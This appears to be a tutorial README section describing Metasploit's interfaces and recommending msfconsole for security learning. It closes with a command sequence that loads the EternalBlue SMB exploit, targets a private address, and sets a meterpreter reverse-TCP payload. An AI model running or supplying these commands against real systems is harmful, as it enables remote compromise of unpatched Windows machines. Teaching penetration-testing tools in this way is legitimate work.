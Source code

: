 ## Metasploit Interfaces

Metasploit provides multiple interfaces to accommodate different workflows, skill levels, and use cases. Each interface offers access to the framework’s core capabilities—exploitation, scanning, and payload delivery—but varies in terms of flexibility and user experience.

### Available Interfaces

1. **msfconsole** – The most powerful and widely-used interface.  
   It provides an interactive command-line environment with support for tab-completion, built-in help, and deep module interaction. This will be our primary focus throughout this repository.

2. **msfcli** – A legacy command-line interface designed for single-command usage.  
   *Note:* `msfcli` is deprecated and no longer included in recent versions of Metasploit.

3. **Armitage** – A GUI-based third-party interface built on top of Metasploit.  
   It visualizes targets and sessions, but has fallen out of favor and is largely considered outdated.

4. **msfweb** – A browser-based interface, once used for remote exploitation management.  
   This interface is no longer maintained and is considered deprecated in modern deployments.

---

### Why Use `msfconsole`

Among all interfaces, **`msfconsole` is the most robust, up-to-date, and actively supported**. It allows you to:

- Load and configure modules easily.
- Generate and handle payloads.
- Perform exploit automation.
- Integrate with external tools and databases.
- Manage sessions, jobs, and services—all in one shell.

You'll find yourself using commands like:

```bash
msfconsole
search type:exploit platform:windows
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
